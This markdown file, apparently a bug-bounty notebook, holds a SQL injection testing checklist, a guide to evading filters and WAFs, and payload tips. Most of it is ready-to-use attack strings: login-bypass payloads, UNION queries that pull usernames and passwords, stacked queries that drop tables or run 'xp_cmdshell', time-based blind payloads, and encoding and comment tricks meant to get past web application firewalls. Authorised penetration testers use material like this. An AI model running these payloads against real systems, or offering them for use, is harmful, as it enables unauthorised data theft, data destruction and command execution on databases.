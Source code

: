 # check 

<details>
   <summary>GPT-CHECK</summary>

# ✅ SQL Injection Hunting Checklist

> Use this structured checklist when testing input fields, parameters, headers, or any user-controlled data for SQL Injection vulnerabilities. It includes techniques to detect and bypass filters and WAFs.

---

## 🔍 1. Identify Injection Points

* [ ] Test URL parameters (`?id=1`)
* [ ] Test POST body parameters
* [ ] Test form inputs (search, login, signup, etc.)
* [ ] Test HTTP headers (`User-Agent`, `Referer`, `X-Forwarded-For`)
* [ ] Test Cookies (`session=`, `auth_token=`)
* [ ] Test JSON/XML parameters (especially in APIs)

---

## 🧪 2. Basic SQLi Payloads

* [ ] `' OR '1'='1`
* [ ] `'--`
* [ ] `" OR "1"="1`
* [ ] `1 OR 1=1`
* [ ] `' OR 1=1--`

Check for:

* Error messages (500, SQL syntax)
* Content changes (login bypass, result flooding)
* Response anomalies (status codes, size, time)

---

## 🧠 3. Analyze Response Behavior

* [ ] Look for reflected errors (`You have an error in your SQL syntax...`)
* [ ] Detect layout/content changes
* [ ] Compare response times (especially for blind/time-based SQLi)

---

## 🛡️ 4. Check for Filters / WAF

* [ ] Are SQL keywords blacklisted? (`SELECT`, `UNION`, `DROP`)
* [ ] Are symbols blocked? (`'`, `"`, `--`, `=`, `;`)
* [ ] Are inputs normalized or sanitized?
* [ ] Are you receiving WAF-specific errors (403, 406, CAPTCHA, redirect)?

---

## 🎭 5. Filter Bypass Techniques

> Apply based on what you suspect is filtered.

* [ ] Comment-based bypass: `UN/**/ION SELECT`, `/*!UNION*/`
* [ ] Case variation: `UnIoN SeLeCt`
* [ ] URL-encoding: `%27`, `%20`, `%3D`
* [ ] Double encoding: `%2527` → `%27` → `'`
* [ ] CHAR/CONCAT: `CHAR(97,100,109,105,110)` → 'admin'
* [ ] Hex strings: `0x61646d696e`
* [ ] Replace spaces: `/**/`, `%09`, `%0A`
* [ ] Use alternate functions: `EXTRACTVALUE()`, `LENGTH()`, `ASCII()`

---

## 🧱 6. Blind SQLi

* [ ] Boolean-based:

  * `' AND 1=1 --`
  * `' AND 1=2 --`
* [ ] Time-based:

  * MySQL: `' OR SLEEP(5)--`
  * MSSQL: `WAITFOR DELAY '00:00:05'`
  * PostgreSQL: `pg_sleep(5)`
* [ ] Second-order:

  * Inject into stored fields (profile, comments, etc.)

---

## 🧩 7. Column Count (for UNION SQLi)

* [ ] `ORDER BY 1`, `ORDER BY 2`, ... until error
* [ ] `UNION SELECT NULL,NULL,...` → Match number of columns
* [ ] Inject numeric payloads: `UNION SELECT 1,2,3`

---

## 🗂️ 8. DBMS Fingerprinting

* [ ] MySQL: `SELECT @@version`, `user()`
* [ ] MSSQL: `SELECT @@version`, `DB_NAME()`
* [ ] PostgreSQL: `SELECT version()`, `current_user`
* [ ] Oracle: `SELECT banner FROM v$version`

---

## 📤 9. Data Extraction

* [ ] `UNION SELECT table_name FROM information_schema.tables`
* [ ] `UNION SELECT column_name FROM information_schema.columns WHERE table_name='users'`
* [ ] `UNION SELECT username,password FROM users`

---

## 📦 10. Advanced Techniques

* [ ] Stacked queries (`'; DROP TABLE users; --`) - MSSQL/PostgreSQL only
* [ ] HTTP Parameter Pollution: `id=1&id=2 OR 1=1`
* [ ] Unicode/UTF-16 payloads: `\u0027` for `'`
* [ ] Protocol-level tricks: Chunked encoding, multipart, Host header abuse

---

## 🧰 Recommended Tools

* 🔧 **Burp Suite**: Repeater (manual), Intruder (fuzzing), Logger++ (monitoring)
* 🛠 **sqlmap**: Automated SQLi testing, fingerprinting, and data dumping
* 🔍 **Postman**: Manual testing for API/JSON-based SQLi
* 🐍 **Python requests** + scripts for custom blind/time-based payloads
* 🕵️‍♂️ **WAFW00F**: Detect Web Application Firewalls

---

## 🧠 Pro Tips

* Always analyze both response **content** and **timing**
* Use **Burp Repeater** to manually tweak payloads
* Try **second-order injection** where data is stored and used later
* Don’t rely solely on tools — understand and adapt based on the application behavior

---

**Last Updated:** May 2025


  
</details>

<details>
  <summary>Tips--BYPASSING-filter</summary>

# 🔐 SQL Injection Filter Bypass Techniques

A curated guide to evading input filtering during SQL injection attacks. Each technique includes a description and when to use it.

---

## 1. Comment-Based Obfuscation

**Description:** Breaks up keywords using SQL comments.

**Examples:**

* `UN/**/ION/**/SELECT`
* `/*!50000SELECT*/ user`
* `' OR 1=1 --`

**Use When:**

* Keywords like `SELECT`, `UNION`, etc. are blacklisted.
* Working with MySQL or PostgreSQL.

---

## 2. Case Variation

**Description:** Varies keyword casing to bypass case-sensitive filters.

**Example:**

* `UnIoN SeLeCt`

**Use When:**

* Filters are case-sensitive and not normalized.

---

## 3. URL & Double Encoding

**Description:** Encodes payloads to bypass filters that scan raw input.

**Examples:**

* `' OR 1=1 --` → `%27%20OR%201%3D1--`
* `%2527` → Decodes to `%27` → `'`

**Use When:**

* WAF or app blocks characters like `'`, `--`, `=` or spaces.

---

## 4. Hexadecimal Encoding

**Description:** Encodes strings or keywords using hex.

**Example:**

* `SELECT 0x61646d696e` → "admin"

**Use When:**

* String literals are filtered.
* You want to hide payloads in queries.

---

## 5. String Construction (CHAR, CONCAT)

**Description:** Constructs strings to avoid filtered literals.

**Examples:**

* `CHAR(97,100,109,105,110)`
* `CONCAT('ad','min')`

**Use When:**

* `'admin'` or other strings are blocked.

---

## 6. Logical/Arithmetic Obfuscation

**Description:** Obfuscates values using math or logic.

**Examples:**

* `1*1`, `1337+0x0a`

**Use When:**

* Simple values or logic are blocked or validated.

---

## 7. Keyword Avoidance

**Description:** Uses alternate functions to bypass blacklisted keywords.

**Examples:**

* `EXTRACTVALUE()` (MySQL)
* `LENGTH()`, `ASCII()`, `SUBSTRING()`

**Use When:**

* `SELECT`, `UNION`, etc., are completely blocked.

---

## 8. WAF-Specific Payload Tricks

**Description:** Payload shaping to bypass Web Application Firewalls.

**Examples:**

* `' OR 1=1 --blah`
* `UNION%09SELECT`

**Use When:**

* You see 403/406 errors when injecting.

---

## 9. Time-Based Payloads (Blind SQLi)

**Description:** Use time delays to confirm injection.

**Examples:**

* `SLEEP(5)` (MySQL)
* `WAITFOR DELAY '00:00:05'` (MSSQL)

**Use When:**

* No error messages or output is reflected.

---

## 10. Stacked Queries

**Description:** Executes multiple SQL commands.

**Examples:**

* `'; DROP TABLE users; --`
* `'; exec xp_cmdshell('whoami'); --`

**Use When:**

* DBMS supports stacked queries (MSSQL, PostgreSQL).

---

## 11. DBMS-Specific Functions

**Description:** Use DB-specific built-ins for stealth extraction.

**Examples:**

* `VERSION()`, `@@version`, `pg_sleep()`

**Use When:**

* You’ve fingerprinted the DBMS.

---

## 12. Second-Order Injection

**Description:** Injected input executes in a different context/time.

**Examples:**

* `User-Agent`, `Referer`, or stored profile data.

**Use When:**

* Direct input isn’t vulnerable, but used later in queries.

---

## 13. HTTP Parameter Pollution (HPP)

**Description:** Sends multiple values for the same parameter.

**Example:**

* `id=1&id=2 OR 1=1`

**Use When:**

* Filters only inspect first or last param.

---

## 14. Unicode / UTF-16 Encoding

**Description:** Encodes input using Unicode.

**Example:**

* `'` → `\u0027`

**Use When:**

* Filters check ASCII only.

---

## 15. Whitespace Manipulation

**Description:** Replaces space with tabs, newlines, or comment blocks.

**Examples:**

* `UNION%0ASELECT`, `UNION/**/SELECT`

**Use When:**

* Space is filtered or blacklisted.

---

## 16. Protocol-Level Tricks

**Description:** Advanced tricks at HTTP level.

**Examples:**

* Chunked encoding, multipart bypass, host header abuse.

**Use When:**

* WAF/proxy blocks everything else.

---

## 🧠 Pro Tips

* Always identify DBMS and filtering behavior first.
* Use Burp Suite Intruder and Repeater for fuzzing.
* Blind SQLi often requires time-based or second-order tricks.

---

**Last updated: May 2025**

  
</details>


- > if ``OR '1'='1'--`` not work try : 
  > 
  > ```
  > ' OR '1'='1' /*
  > ```
  >
  > if A WAF blocks typical SQL keywords ``(SELECT, UNION, OR)``.
  >
  > ```
  > 1' /*!UNION*/ SELECT 1,2--
  > ```
  >
  > most effective for error-based SQLi here ``https://example.com/product.php?id=5``
  >
  > ```
  > 5' AND (SELECT 1/0)--
  > ```
  >
  > Best advanced technique to bypass heavy WAF filtering:
  > > Use hex-encoded values and mid-query obfuscation like UN//ION**
  > > ```
  > > Obfuscation (e.g., UN/**/ION, 0x73656c656374 for 'select')
  > > ```
  >
  > 
